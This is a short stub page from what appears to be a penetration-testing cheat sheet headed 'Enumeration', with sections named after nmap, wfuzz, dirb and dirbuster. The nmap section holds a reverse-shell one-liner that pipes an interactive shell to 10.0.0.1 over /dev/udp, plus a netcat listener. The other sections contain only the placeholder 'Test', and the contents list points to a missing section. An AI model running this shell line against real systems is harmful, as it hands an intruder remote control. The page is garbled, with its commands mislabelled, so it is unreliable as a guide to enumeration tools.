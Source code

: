 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DIRB](#DIRB)
* [DIRBUSTER](#DISRBUSTER)
    * [Bash TCP](#bash-tcp)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
